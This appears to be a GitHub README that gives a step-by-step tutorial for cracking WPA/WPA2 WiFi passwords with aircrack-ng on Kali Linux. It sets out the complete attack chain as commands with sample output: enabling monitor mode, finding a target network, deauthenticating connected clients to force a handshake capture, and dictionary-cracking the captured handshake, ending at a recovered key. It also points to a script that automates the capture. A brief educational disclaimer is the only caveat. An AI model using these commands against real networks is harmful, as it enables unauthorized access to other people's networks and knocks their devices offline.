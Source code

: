 cracking WPA/WPA2 secured WiFi networks with the aircrack-ng suite

> <picture>
>   <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/Mqxx/GitHub-Markdown/main/blockquotes/badge/light-theme/warning.svg">
>   <img alt="Warning" src="https://raw.githubusercontent.com/Mqxx/GitHub-Markdown/main/blockquotes/badge/dark-theme/warning.svg">
> </picture><br>
> This guide is for educational purposes only and should not be used for any illegal activities. The author and publisher is not liable for any illegal use.

## Requirements

-   [Kali Linux](https://www.kali.org/get-kali)
-   [aircrack-ng suite](https://www.aircrack-ng.org) (pre-installed on Kali Linux)
-   external WiFi adapter with [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode) and packet injection capabilities ([PiAEK AC-1200 mpbs](https://www.amazon.de/PiAEK-Adapter-Wireless-Verl%C3%A4ngerungskabel-Unterst%C3%BCtzung/dp/B08BHY92R4) used in this guide)
-   drivers for the external WiFi adapter ([rtl8812au](dependencies/rtl8812au-5.13.6.tar.gz) used in this guide)
-   linux kernel headers (installed via _package manager_ or [_/pool/main/l/linux/_](https://http.kali.org/kali/pool/main/l/linux/)) - used in this guide:
    -   [linux-headers-6.8.11-common_6.8.11-1kali2_all.deb](https://http.kali.org/kali/pool/main/l/linux/linux-headers-6.8.11-common_6.8.11-1kali2_all.deb)
    -   [linux-kbuild-6.8.11_6.8.11-1kali2_amd64.deb](https://http.kali.org/kali/pool/main/l/linux/linux-kbuild-6.8.11_6.8.11-1kali2_amd64.deb)
    -   [linux-headers-6.8.11-amd64_6.8.11-1kali2_amd64.deb](https://http.kali.org/kali/pool/main/l/linux/linux-headers-6.8.11-amd64_6.8.11-1kali2_amd64.deb)

## Walkthrough

### Enable monitor mode

[Monitor mode](https://en.wikipedia.org/wiki/Monitor_mode) allows the WiFi adapter to capture all WiFi packages in the air. Before enabling monitor mode, make sure the WiFi adapter is connected to the system. Check that, by running `iwconfig`. The adapter should be listed with a name like `wlan0` or `wlan1`:

```bash
wlan0     unassociated  ESSID:""  Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency=2.412 GHz  Access Point: Not-Associated
          Sensitivity:0/0
          Retry:off   RTS thr:off   Fragment thr:off
          Power Management:off
          Link Quality:0  Signal level:0  Noise level:0
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```

To enable monitor mode, we first need to stop processes that might interfere with the adapter:

```bash
sudo airmon-ng check kill
```

Next, we can enable monitor mode on the adapter:

```bash
sudo airmon-ng start wlan0 # replace wlan0 with the name of your adapter
```

### Look for target network

To find the target network, we can use `airodump-ng`, which is a tool from the _aircrack-ng_ suite. This tool lists all WiFi networks in the area, including their BSSID, ESSID, channel, etc.:

```bash
airodump-ng wlan0 # replace wlan0 with the name of your adapter (your adapter might have a different name after enabling monitor mode, to check run iwconfig)
```

```
CH  0 ][ Elapsed: 0 s ][ 2024-04-18 18:55

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AA:AB:AC:AD:AE:AF  -99        5        0    0   1  100   WPA2 CCMP   PSK  myhomenetwork
```

write down the BSSID and channel of the target network.

### Capture handshake

When a device connects to a WiFi network, a so-called [handshake](https://medium.com/@hackersprey/wifi-handshake-cf1f3397a5cc) is exchanged between the device and the access point. This handshake can be captured and used to crack the WiFi password. To capture the handshake, we need to run `airodump-ng` again, but this time we need to specify the BSSID and channel of the target network:

```bash
airodump-ng -d AA:AB:AC:AD:AE:AF -c 1 --write handshake wlan0 # replace AA:AB:AC:AD:AE:AF with the BSSID of the target network, 1 with the channel of the target network and wlan0 with the name of your adapter
```

this command starts listening for the handshake. Once a device connects to the target network, the handshake will be captured and saved to a file called `handshake-01.cap`. An indicator will show when the handshake is captured; it will appear on the first line after the date and time (you can safely stop the process with `Ctrl + C` after the handshake was captured):

```
CH  0 ][ Elapsed: 0 s ][ 2024-04-18 18:55 ][ WPA handshake: AA:AB:AC:AD:AE:AF
```

Optionally, you can speed up the process by deauthenticating all device currently connected to the target network and forcing them to reconnect and establish a new handshake:

```bash
# --deauth specifies the number of deauthentications to send (5 in this case)
aireplay-ng --deauth 5 -a AA:AB:AC:AD:AE:AF wlan0 # replace AA:AB:AC:AD:AE:AF with the BSSID of the target network and wlan0 with the name of your adapter
```

### Crack the password

To crack the password, we need to use a wordlist. A wordlist is a list of possible passwords that will be tried one by one until the correct password is found. In this guide, we will use the `rockyou.txt` wordlist, which is a popular wordlist that comes pre-installed on Kali Linux. To crack the password, we need to run `aircrack-ng` and specify the wordlist and the captured handshake:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap
```

```
                               Aircrack-ng 1.7

      [00:00:08] 40629/14344392 keys tested (4797.50 k/s)

      Time left: 49 minutes, 41 seconds                          0.28%

                           KEY FOUND! [ test1234 ]


      Master Key     : 8F 5D 7E B8 B7 72 54 75 43 E7 BE 33 66 36 DC C6
                       C6 99 AB 2B E6 5D C6 C1 40 B8 BD 66 52 A6 4A F4

      Transient Key  : 32 2B 40 BA 56 02 E0 2D E9 25 B4 89 AE D8 58 5A
                       08 73 1D 09 BD AE 94 B7 ED 14 9F BE 58 B5 30 85
                       65 C1 ED 9C C9 33 08 DA 83 84 99 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : B7 D9 4F 14 7A 29 6F 3E B3 5C F8 E5 C0 F8 E1 EF
```

And Voila! The password was cracked in only **8 seconds** after testing **40629** other passwords. In this case, the password was `test1234`.

## Script automation

Because the process of capturing the handshake is always the same and can be quite tedious, I've automated the process with a simple [bash script](dump.sh). It takes two parameters:

1. (required) the name of the target network
1. (optional) the name of the adapter - default: wlan0

it does all the steps until capturing the handshake and throws you directly into the _airodump-ng_ target network sniff. You only have to wait for the handshake to be captured and then run the _aircrack-ng_ command to crack the password.

<br><br>

_credits to:_

> [The Morpheus Tutorials](https://youtu.be/GLmpLeghM2Y)

